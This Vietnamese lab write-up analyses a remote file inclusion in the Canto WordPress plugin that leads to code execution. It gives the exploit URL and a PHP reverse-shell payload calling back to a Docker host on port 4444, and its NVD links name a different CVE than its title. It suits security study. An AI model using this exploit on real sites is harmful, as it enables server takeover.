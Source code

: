 ```yaml
---
layout: post
title:  "CVE-2024-25096 - Unauthenticated RCE Analysis"
date:   2025-10-31 10:25:56 +0700
categories: wordpress
---
```

# Info:

Type: Remote Code Execution

Plugin Name: **Canto**

Version: < 3.0.7

**Base Score:** [**9.8 CRITICAL**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2024-38773&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)

**Vector:**  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

NIST: [NIST](https://nvd.nist.gov/vuln/detail/CVE-2024-38773)

WPScan: [WPScan](https://wpscan.com/vulnerability/1595af73-6f97-4bc9-9cb2-14a55daaa2d4/)

# PoC:

Khởi chạy wordpress trên docker cổng 9000 sau đó thực hiện cài đặt thư viện canto v3.0.6.

Tại thư mục lib của thư viện các file đang thực hiện gọi đến trang `/wp-admin/admin.php` thông qua lệnh `require_once urldecode($_REQUEST['wp_abspath']) . '/wp-admin/admin.php';`

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image.png)

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-2.png)

Lệnh `require_once urldecode($_REQUEST['wp_abspath']) . '/wp-admin/admin.php';` có mục đích tải nội dung của file admin.php vào trang hiện tại. Ví dụ khi người dùng truyền vào `?wp_abspath=/etc/passwd`  thì đường dẫn được require_once vào code sẽ trở thành `require_once '/etc/passwd/wp-admin/admin.php';`. Kiểm tra lại trên code bằng cách debug như sau

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-3.png)

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-4.png)

Tại vị trí này, ta có thể thấy đây là lỗ hổng LFI nhưng khó để khai thác vì code mặc định luôn thêm đường dẫn `/wp-admin/admin.php` vào phía sau payload dẫn đến đường dẫn không tồn tại trong hệ thống. Khi gửi request thì hệ thống sẽ trả về status 500

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-5.png)

Tuy không đọc được file bằng đường dẫn nội bộ nhưng ta có thể tạo server chứa file mã độc và cho hệ thống thực hiện require_once:

Thực hiện tạo server trả về code php

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-6.png)

Khởi tạo cho poc chạy trên cổng 6000 bằng lệnh: `php -S 0.0.0.0:6000` 

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-7.png)

Vì bài lab đang sử dụng wordpress chạy trên docker nên ta sẽ phải thực hiện thay địa chỉ local thành ip theo dải của docker. Tức là thay vì truy cập đến localhost, ta sẽ truy cập đến dải IP 172.17.0.1 của docker. Thực hiện truy cập đến đường dẫn `http://localhost:9000/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.17.0.1:6000`

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-8.png)

Thực hiện tạo reverse shell bằng payload.

```
<?php
header("Content-Type: text/plain");

echo '<?php $sock=fsockopen("172.17.0.1",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>';
```

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-2.png)

### Lưu ý: Cách khai thác này chỉ thành công nếu trong cấu hình php của server wordpress có `allow_url_include = On`